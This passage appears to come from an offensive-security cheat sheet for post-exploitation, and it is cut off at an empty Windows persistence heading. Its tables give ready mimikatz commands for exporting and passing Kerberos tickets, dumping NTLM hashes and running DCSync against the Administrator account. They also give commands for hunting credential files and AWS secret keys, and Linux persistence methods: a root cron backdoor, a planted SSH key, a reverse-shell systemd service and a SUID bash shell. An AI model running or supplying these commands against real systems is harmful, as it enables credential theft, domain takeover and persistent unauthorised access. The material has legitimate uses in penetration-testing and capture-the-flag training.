 ***

### V. 🧰 Token & Ticket Manipulation (Windows)

| Action                   | Tool / Command                        |
| ------------------------ | ------------------------------------- |
| **List current tickets** | `klist`                               |
| **Dump all tickets**     | `mimikatz kerberos::list /export`     |
| **Pass-the-Ticket**      | `mimikatz kerberos::ptt ticket.kirbi` |
| **Dump NTLM hashes**     | `sekurlsa::msv`                       |
| **DCSync from DC**       | `lsadump::dcsync /user:Administrator` |

***

### VI. 🧠 Data Mining & Target Discovery

| Target                | Command / Idea                                              |
| --------------------- | ----------------------------------------------------------- |
| **Files of Interest** | `find / -type f -name "*.bak" -o -name "*.conf"`            |
| **Databases**         | MySQL: `show databases;` MSSQL: `xp_cmdshell` abuse         |
| **Documents / Flags** | `grep -ri "flag{" /home`                                    |
| **Git Repos**         | `.git/config`, `.git-credentials`                           |
| **Cloud Keys**        | `grep -r "AWS_SECRET_ACCESS_KEY" /home`                     |
| **Memory Dumps**      | `/proc/<pid>/mem` extraction                                |
| **AD Enumeration**    | `net group /domain`, `Get-NetUser`, `bloodhound` collection |

***

### VII. ⚙️ Privilege Persistence

#### 🐧 Linux

| Technique  | Example                                                   |
| ---------- | --------------------------------------------------------- |
| Cron       | `echo "* * * * * root bash /tmp/back.sh" >> /etc/crontab` |
| rc.local   | Add payload before `exit 0`                               |
| SSH        | Add key to `/root/.ssh/authorized_keys`                   |
| Systemd    | Custom service with reverse shell                         |
| SUID Shell | `cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash`      |

#### 🪟 Windows
